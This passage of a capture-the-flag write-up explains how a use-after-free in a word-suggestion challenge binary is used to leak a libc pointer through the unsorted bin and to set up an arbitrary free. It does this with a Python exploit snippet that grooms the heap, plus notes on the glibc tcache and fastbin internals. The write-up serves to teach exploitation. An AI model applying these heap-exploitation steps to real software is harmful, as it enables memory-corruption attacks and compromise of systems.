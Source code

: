 The chunk with the favorites structure got free'd but we can still read from the 'best word', which also got freed. To get a libc leak, we want the 'best word' to get free'd into the "unsorted bin" -- I remembered from a previous challenge that free'd chunks in the unsorted bin contain a libc pointer.

```python
    # Some extra allocations
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    
    # This will allocate 3 times:
    # 1. reading in and stored to my list
    # 2. strdup into favorites list
    # 3. strcup as the 'best word' ** 8th allocation **
    suggest(r, 0x300, b"fun" + b"X" * 0x2fc)

    # This will free 6 of them
    scrap_my_list(r)
    
    # Some dummy allocations so that our favorites list ends up
    # where we want it later (will talk about later)
    suggest(r, 0x10, b"dummy")
    suggest(r, 0x40, b"dummy")

    suggest(r, 0x10, b"funY")
    for i in range(2):
        suggest(r, 0x60+(i), b"fun" + b"X" * i)

    # At this point, the favorites list is traversed 
    # and the remaining 0x300 allocations are free'd.
    # The 'best word' allocation is free'd last and is
    # placed in the unsorted bin.
    
    r.recvuntil("You have given me so many")

    # Read from the favorite word. This is a free'd
    # chunk, so we are reading a libc leak
    leak = u64(get_favorite(r)[:8].ljust(8, b"\x00"))
    print("leak: %s" % (hex(leak,)))
```

### Getting arbitrary free

So after we send it four 'fun' suggestions, the favorites structure will get free'd. 

Remember those 'dummy' suggestions in the above code? That's because the free'd favorites structure is corrupted by the program
when the linkedlist is set to NULL. So the dummy allocations above were to force this corrupted free'd chunk into the fastbin at position 8. Why 8? This is because when tcache runs out, it will try to move 8 things from fastbin and if one of them is corrupted, you hit this: https://github.com/bminor/glibc/blob/30891f35fa7da832b66d80d0807610df361851f3/malloc/malloc.c#L3758
